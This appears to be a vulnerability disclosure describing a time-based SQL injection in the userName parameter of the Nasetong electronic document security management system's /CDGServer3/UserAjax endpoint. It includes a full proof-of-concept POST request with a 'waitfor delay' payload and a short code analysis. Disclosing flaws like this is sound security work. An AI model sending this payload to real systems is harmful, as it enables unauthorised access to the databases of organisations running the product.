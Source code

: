 ## Affected version: 
SQL injection exists in the Nasetong electronic document security management system

## Official website:
https://www.esafenet.com/xwzx/


## Vulnerability File:
/CDGServer3/UserAjax

## Description:
There is SQL injection in the Nasetong electronic document security management system, which can be bypassed by the filter to achieve delayed injection. The vulnerable parameter is userName.

Status: CRITICAL

## Vulnerability recurrence

/CDGServer3/UserAjax;Service

POC
```
POST /CDGServer3/UserAjax;Service HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=2165527D28E701B8AB471584A11C40F8; JSESSIONID=C2320AC8D9656081FE8A3CF6A87DE53E
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.12.3
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

command=isExist&userName=123';waitfor delay '0:0:5'-- q
```
Prove the existence of injection through sqlmap
<img width="640" alt="image" src="https://github.com/user-attachments/assets/f6c8bac3-218c-499b-9f46-24395624dcfc" />

## code analysis:

In the findByProperty() method, SQL statement parameter splicing exists and is controllable
![CleanShot 2025-03-20 at 23 54 17@2x](https://github.com/user-attachments/assets/7ba8a8ab-1faf-48f7-b2e5-37995fd72615)



